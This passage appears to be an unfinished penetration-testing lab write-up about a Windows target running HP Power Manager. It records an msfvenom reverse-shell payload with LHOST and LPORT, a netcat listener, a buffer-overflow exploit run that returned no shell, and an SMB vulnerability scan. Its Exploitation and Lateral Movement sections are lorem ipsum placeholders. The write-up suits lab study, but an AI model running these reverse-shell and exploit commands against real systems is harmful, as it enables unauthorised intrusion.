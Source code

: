 ![[Cybersecurity-Resources/images/Pasted image 20241024213408.png]]
- Ran `searchsploit "HP Power Manager"` and identified potential exploit `10099.py`
![[Cybersecurity-Resources/images/Pasted image 20241024221345.png]]
- Reviewed `10099.py` code, then ran `msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.199 LPORT=80 -e x86/alpha_mixed -f c` to generate reverse shell for buffer overflow
![[Cybersecurity-Resources/images/Pasted image 20241025163857.png]]
- Copied buffer overflow into `10099.py` below "n00bn00b" line to replace existing code
![[Cybersecurity-Resources/images/Pasted image 20241025164015.png]]
- Saved `10099.py`, ran `nc -nvlp 80` to start netcat listener on port `80`, then ran exploit `python2 10099.py 192.168.171.45`
![[Cybersecurity-Resources/images/Pasted image 20241025164155.png]]
- No reverse shell received
![[Cybersecurity-Resources/images/Pasted image 20241025164223.png]]
## Port 135 - MSRPC (Windows RPC)

## Port 139 & 445 - SMB (Apache)
- Ran `sudo nmap --script smb-vuln* -p 139,445 192.168.242.45` and identified SMBv1 vulnerability (CVE-2017-0143)
![[Cybersecurity-Resources/images/Pasted image 20241024220205.png]]
## Port 3389 - RDP

## Port 49152-60 - MSRPC (Windows RPC)
---
# Exploitation
## Name of the technique
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---
# Lateral Movement to user
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.
